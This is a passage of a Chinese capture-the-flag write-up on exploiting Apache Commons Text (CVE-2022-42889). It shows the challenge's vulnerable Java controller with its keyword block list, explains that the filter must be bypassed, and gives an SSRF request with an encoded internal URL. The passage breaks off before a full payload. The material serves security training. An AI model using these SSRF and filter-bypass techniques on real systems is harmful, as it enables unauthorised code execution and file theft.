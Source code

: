 **3、Apache Commons Text 远程代码执行**

利用 SSRF 访问 `http://127.0.0.1:8080/source_bak` 可以看到源码，这里需要根据源码审计漏洞

```java
import org.apache.commons.text.StringSubstitutor;

@RestController
public class BonusController {

    @RequestMapping("/bonus")
    public QueryBean bonus(QueryBean queryBean) {
        if(queryBean.getType().equals("CommonsText")) {
            StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
            interpolator.setEnableSubstitutionInVariables(true);

            String value = replaceUnSafeWord(queryBean.getValue());
            String resultValue = interpolator.replace(value);
            queryBean.setValue(resultValue);

        } else {
            // flag3藏在/root/flag3.txt等待你发现
        }

        return queryBean;
    }

    public static String replaceUnSafeWord(String txt) {
        String resultTxt = txt;

        ArrayList<String> unsafeList = new ArrayList<String>(Arrays.asList("java", "js", "script", "exec", "start", "url", "dns", "groovy", "bsh", "eval", "ognl"));
        Iterator<String> iterator = unsafeList.iterator();
        String word;
        String replaceString;
        while (iterator.hasNext()) {
            word = iterator.next();
            replaceString = "";
            resultTxt = resultTxt.replaceAll("(?i)" + word, replaceString);
        }

        return resultTxt;
    }
}
```

根据关键词`CommonsText`可以得知是最近的 CVE-2022-42889 Apache Commons Text 漏洞。除此之外，这里过滤了一些关键字，需要构造绕过payload。

Apache Commons Text 漏洞和 Log4j 漏洞很像，绕过关键字拦截的方式也有很多。

以下是两个示例：

1、利用递归解析 `${}` 绕过

(POST) /admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%32%25%36%66%25%36%65%25%37%35%25%37%33
